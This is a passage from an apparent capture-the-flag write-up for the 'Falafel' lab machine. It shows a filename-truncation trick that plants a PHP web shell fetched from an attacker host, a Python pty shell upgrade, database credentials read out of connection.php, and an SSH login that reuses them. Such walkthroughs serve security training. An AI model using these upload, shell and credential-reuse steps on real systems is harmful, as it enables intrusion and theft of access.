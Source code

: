 Now upload:

```bash
http://10.10.16.7:8001/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png
```

Now let’s visit:

```bash
http://10.10.10.73/uploads/0916-1911_cdaab779e321803d/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php
```

We now have shell:

![image.png]({{ site.baseurl }}/assets/falafel/image%2013.png)

Checking connection.php:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

```bash
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>

```

Then checking /home:

```bash
ls /home

moshe  yossi
```

Let’s see if the password was reused:

```bash
ssh moshe@10.10.10.73
```

We are in:

